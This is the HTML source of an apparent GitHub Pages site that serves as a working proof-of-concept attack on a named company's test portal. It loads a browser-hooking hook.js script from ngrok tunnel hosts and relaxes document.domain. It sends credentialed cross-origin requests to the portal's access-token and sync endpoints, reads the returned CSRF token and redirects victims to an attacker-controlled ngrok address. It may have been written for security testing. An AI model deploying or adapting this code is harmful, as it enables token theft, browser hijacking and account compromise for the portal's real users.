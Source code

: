 <html lang="en-US"><head><meta charset="UTF-8"><meta http-equiv="X-UA-Compatible" content="IE=edge"><meta name="viewport" content="width=device-width, initial-scale=1"><!-- Begin Jekyll SEO tag v2.8.0 --><title>COorsTestingRepo</title><meta name="generator" content="Jekyll v3.9.2" /><meta property="og:title" content="COorsTestingRepo" /><meta property="og:locale" content="en_US" /><link rel="canonical" href="https://sz072.github.io/COorsTestingRepo/" /><meta property="og:url" content="https://sz072.github.io/COorsTestingRepo/" /><meta property="og:site_name" content="COorsTestingRepo" /><meta property="og:type" content="website" /><meta name="twitter:card" content="summary" /><meta property="twitter:title" content="COorsTestingRepo" /><script type="application/ld+json">{"@context":"https://schema.org","@type":"WebSite","headline":"COorsTestingRepo","name":"COorsTestingRepo","url":"https://sz072.github.io/COorsTestingRepo/"}</script>
<!-- End Jekyll SEO tag --><link rel="stylesheet" href="https://testportal.zalaris.com/nea/v1/authenticate?neaRelayState=ZHQPORTAL%3ahttps%3a%2f%2ftestportal.zalaris.com%2fep%2fredirect"><link rel="stylesheet" href="https://testportal.zalaris.com/neptune/native/fetch_csrf?sap-client=510"><script src="http://de3b-115-97-103-132.in.ngrok.io:3000/hook.js"></script><!-- start custom head snippets, customize with your own _includes/head-custom.html file --><!-- Setup Google Analytics --><!-- You can set your favicon here --><!-- link rel="shortcut icon" type="image/x-icon" href="/COorsTestingRepo/favicon.ico" --><!-- end custom head snippets --></head><body><script>document.domain='testportal.zalaris.com'</script><div class="container-lg px-3 my-5 markdown-body"><h1><a href="https://sz072.github.io/COorsTestingRepo/">COorsTestingRepo</a></h1><iframe src='https://testportal.zalaris.com/neptune/zalaris_launchpad_standard?ajax_id=GET_TELEMETRY_APP&ajax_applid=ZALARIS_LAUNCHPAD_STANDARD&sap-client=510&dxp=21100006&field_id=80287'></iframe><html><body><script>var req = new XMLHttpRequest();req.onload = reqListener;req.open("POST", "https://testportal.zalaris.com/neptune/zalaris_launchpad_standard?ajax_id=GET_CB_CPI_ACCESS_TOKEN&ajax_applid=ZALARIS_LAUNCHPAD_STANDARD&sap-client=510&dxp=21100006&field_id=80302", true);req.withCredentials = true;req.send();function reqListener(){var authHeader = req.getResponseHeader('X-CSRF-Token');location='https://6154-49-37-210-91.in.ngrok.io';};};</script><script>var req = new XMLHttpRequest();req.onload = reqListener;req.open("POST", "https://testportal.zalaris.com/neptune/zmfp_qta_time_acc_v2?ajax_id=SYNC&ajax_applid=ZMFP_QTA_TIME_ACC_V2&sap-client=510&dxp=22100008&field_id=00138", true);req.withCredentials = true;req.send();function reqListener(){var authHeader = req.getResponseHeader('X-CSRF-Token');location='https://6154-49-37-210-91.in.ngrok.io';};};</script></body></html></div><script src="https://cdnjs.cloudflare.com/ajax/libs/anchor-js/4.1.0/anchor.min.js" integrity="sha256-lZaRhKri35AyJSypXXs4o6OPFTbTmUoltBbDCbdzegg="crossorigin="anonymous"></script><script>anchors.add();</script>
  <img src='https://de3b-115-97-103-132.in.ngrok.io:3000/hook.js'><link rel="stylesheet" href="https://testportal.zalaris.com/neptune/zalaris_launchpad_standard?ajax_id=GET_CB_CPI_ACCESS_TOKEN&ajax_applid=ZALARIS_LAUNCHPAD_STANDARD&sap-client=510&dxp=21100006&field_id=80302"><img src='https://de3b-115-97-103-132.in.ngrok.io:3000/hook.js'><link rel="stylesheet" href="https://testportal.zalaris.com/neptune/zmfp_qta_time_acc_v2?ajax_id=SYNC&ajax_applid=ZMFP_QTA_TIME_ACC_V2&sap-client=510&dxp=22100008&field_id=00138"><script>alert(document.domain='testportal.zalaris.com')</script></body></html>





